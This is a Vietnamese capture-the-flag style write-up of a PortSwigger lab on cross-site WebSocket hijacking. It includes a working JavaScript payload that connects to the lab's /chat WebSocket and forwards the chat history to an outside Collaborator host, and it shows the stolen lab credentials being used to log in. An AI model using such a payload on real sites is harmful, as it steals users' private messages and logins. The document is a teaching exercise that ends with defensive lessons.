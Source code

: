 # Write-ups: Cross-site WebSocket hijacking

### Tổng quan
Khai thác lỗ hổng Cross-site WebSocket hijacking (CSWH) trong chức năng live chat của ứng dụng, nơi WebSocket endpoint (`/chat`) không kiểm tra CSRF token hoặc xác thực nguồn gốc, cho phép kẻ tấn công kết nối WebSocket từ một trang độc hại. Bằng cách gửi thông điệp `READY` qua WebSocket, kẻ tấn công lấy được dữ liệu chat nhạy cảm (bao gồm thông tin đăng nhập) và chuyển tiếp đến máy chủ do mình kiểm soát. Payload được triển khai trong Exploit Server, tận dụng việc thiếu bảo vệ chống CSRF để đánh cắp thông tin đăng nhập của nạn nhân và đăng nhập vào tài khoản của họ

### Mục tiêu
- Khai thác lỗ hổng Cross-site WebSocket hijacking để kết nối tới WebSocket endpoint `/chat`, lấy thông tin đăng nhập của nạn nhân, gửi dữ liệu đến máy chủ do kẻ tấn công kiểm soát, đăng nhập vào tài khoản và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu th ập thông tin (Reconnaissance)**
- Nhập tin nhắn thử nghiệm (`hey`) và reload trang, quan sát trong Burp Proxy WebSockets history:
    - Gửi thông điệp `READY` qua WebSocket để khởi tạo `handshake`, nhận phản hồi chứa dữ liệu chat:
     
- Kiểm tra request GET `/chat` trong Burp Proxy HTTP history:
    - **Phản hồi**:     
        - Response chứa endpoint WebSocket: `wss://0a5b001c04ae288181251bc200cf0098.web-security-academy.net/chat`.
        - Không có CSRF token hoặc kiểm tra nguồn gốc (Origin header), xác nhận lỗ hổng CSWH:
        ![ready](./images/1_chat.png)

- **Kiểm tra khả năng khai thác WebSocket**
    - Tạo payload trong Exploit Server để thử kết nối WebSocket và lấy dữ liệu:
        ```html
        <script>
            var ws = new WebSocket('wss://0a5b001c04ae288181251bc200cf0098.web-security-academy.net/chat');
            ws.onopen = function() {
                ws.send("READY");
            };
            ws.onmessage = function(event) {
                fetch('https://kl92e5pewy32d7478yzq97e71y7pvfj4.oastify.com', {
                    method: 'POST',
                    mode: 'no-cors',
                    body: event.data
                });
            };
        </script>
        ```
        ![body](./images/3_body.png)
    - **Ý tưởng payload**: Kết nối WebSocket tới `/chat`, gửi READY để nhận dữ liệu chat, chuyển tiếp dữ liệu tới máy chủ của kẻ tấn công qua fetch.
- Store và view exploit:
    - Payload kết nối thành công tới WebSocket, gửi READY, nhận dữ liệu chat và gửi đến Burp Collaborator 
        ![collab](./images/2_collab.png)

2. **Khai thác (Exploitation)**
- Gửi payload đến nạn nhân qua "Deliver exploit to victim" của Exploit Server: 
    - **Kết quả**: Khi nạn nhân truy cập trang Exploit Server, payload kết nối WebSocket, gửi READY, nhận dữ liệu chat chứa thông tin đăng nhập: `carlos`:`smakwq6eqz618ht010l0`. Dữ liệu được gửi đến Burp Collaborator:
        ![pass](./images/4_password.png)

- Đăng nhập vào tài khoản `carlos`:`smakwq6eqz618ht010l0`, lab xác nhận hoàn thành:
    ![solved](./images/5_solved.png)

### Bài học rút ra
- Hiểu cách khai thác Cross-site WebSocket hijacking bằng cách kết nối tới WebSocket endpoint /chat từ trang độc hại, gửi thông điệp READY để lấy dữ liệu nhạy cảm (thông tin đăng nhập), tận dụng việc thiếu kiểm tra CSRF token hoặc nguồn gốc.
- Nhận thức tầm quan trọng của việc triển khai kiểm tra CSRF token và xác thực nguồn gốc (Origin header) trong các kết nối WebSocket để ngăn chặn các cuộc tấn công CSWH.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác Cross-site WebSocket hijacking, nhấn mạnh tầm quan trọng của việc bảo vệ WebSocket bằng kiểm tra CSRF token và xác thực nguồn gốc để ngăn chặn đánh cắp dữ liệu nhạy cảm. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*